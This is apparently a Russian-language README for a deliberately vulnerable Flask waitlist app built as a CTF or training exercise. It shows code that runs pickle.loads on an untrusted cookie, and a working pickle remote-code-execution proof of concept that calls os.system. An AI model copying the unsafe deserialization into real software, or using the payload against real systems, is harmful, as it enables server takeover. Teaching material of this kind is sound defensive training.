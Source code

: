# TechLaunch Beta Waitlist - Уязвимое Flask приложение

## 📋 Описание проекта

TechLaunch - это демонстрационное веб-приложение для списка ожидания бета-тестирования, написанное на Flask. Приложение содержит преднамеренно внесенные уязвимости для образовательных целей в области кибербезопасности.

## ⚠️ Выявленные уязвимости

### 1. Небезопасная десериализация (CWE-502)
**Критичность:** Высокая  
**Расположение:** `app.py`, функция `thank_you()`

```python
# УЯЗВИМЫЙ КОД
manager_data = base64.b64decode(manager_cookie)
email_manager = pickle.loads(manager_data)  # RCE через pickle
```

**Воздействие:** Возможность выполнения произвольного кода на сервере

## 🔬 Proof of Concept

### Эксплойт для RCE через pickle

```python
import pickle
import base64
import os

# Самый надежный способ - использовать tuple с функцией и аргументами
class RCE:
    def __reduce__(self):
        # Простая команда для проверки - создает файл
        return (os.system, ('touch /tmp/pwned_success_$(date +%s)',))

# Создаем payload
rce = RCE()
payload = pickle.dumps(rce)
encoded_payload = base64.b64encode(payload).decode()

print(encoded_payload)
```
## 🛠️ Установка и запуск

### Локальная разработка

```bash
# Клонирование репозитория
git clone <repository-url>
cd ctf-4

# Установка зависимостей
pip install -r requirements.txt

# Запуск приложения
python app.py
```

### Docker развертывание

```bash
# Сборка образа
docker build -t techlaunch-app .

# Запуск контейнера
docker run -p 5000:5000 techlaunch-app
```

Приложение будет доступно по адресу: `http://localhost:5000`

## 📁 Структура проекта

```
techlaunch-vulnerable/
├── app.py                 # Основное Flask приложение
├── templates/
│   ├── index.html         # Главная страница
│   └── thank_you.html     # Страница подтверждения
├── requirements.txt       # Зависимости Python
├── Dockerfile            # Конфигурация Docker
└── README.md            # Документация
```

